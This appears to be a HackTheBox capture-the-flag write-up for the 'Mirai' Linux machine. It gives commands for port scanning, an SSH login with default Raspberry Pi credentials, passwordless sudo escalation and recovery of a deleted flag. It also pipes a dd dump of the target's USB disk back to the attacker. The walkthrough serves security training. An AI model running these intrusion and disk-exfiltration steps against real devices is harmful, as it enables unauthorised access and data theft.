 # 🧠 HTB: Mirai — Command Writeup

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🛰️ Recon

### 🔍 Full Port Scan (All TCP Ports)
```bash
nmap -p- --min-rate 10000 10.10.10.48
```
> Scans all 65535 TCP ports with high speed. Found ports: 22 [SSH](SSH), 53 [DNS](DNS), 80 (HTTP), 1877 (UPnP), 32400 (Plex), 32469 (UPnP).

### 🔍 Targeted Service & Version Detection
```bash
nmap -p 22,53,80,1877,32400,32469 -sCV 10.10.10.48
```
> Runs default scripts and version detection on open ports.

### 🌐 Directory Brute-Force
```bash
feroxbuster -u http://10.10.10.48
```
> Discovers `/admin`, `/admin/scripts`, `/admin/img`, etc. — confirms it's a Pi-hole admin interface.

---

## 🔓 Shell as `pi` (User)

### 🔐 Attempt Default Raspberry Pi SSH Credentials
```bash
sshpass -p raspberry ssh pi@10.10.10.48
```
> Logs in successfully using default creds: `pi:raspberry`.

### 📄 Capture User Flag
```bash
cat ~/Desktop/user.txt
```

---

## 🧑‍💼 Shell as `root`

### 🔍 Check `sudo` Privileges
```bash
sudo -l
```
> Shows `pi` can run **ALL commands as root** without password.

### 🔁 Elevate to Root
```bash
sudo su -
# OR
sudo -i
```

---

## 🧪 Root Flag Recovery

### 🔍 Inspect Mounted Devices
```bash
mount
# or
lsblk
```
> Identifies `/dev/sdb` mounted as `/media/usbstick`.

### 🔍 Locate Files on USB Stick
```bash
cd /media/usbstick
find . -ls
```
> Sees `damnit.txt` and empty `lost+found`; no `root.txt`.

### 🔍 Search for 32-char Hex Flag (using `grep`)
```bash
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
```

### 🔍 Alternative: Search Printable Strings
```bash
strings /dev/sdb -n 32
```

---

## 📦 Optional: Extract Disk Image for Offline Analysis

### 🧲 Copy USB Disk to Local Machine
```bash
sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
```

### 🗜️ Decompress & Analyze
```bash
gunzip usb.gz
file usb     # Confirm it's an ext4 FS
```

### 🧱 Recover Deleted Files (with `extundelete`)
```bash
extundelete usb --restore-all
ls RECOVERED_FILES/
cat RECOVERED_FILES/root.txt
```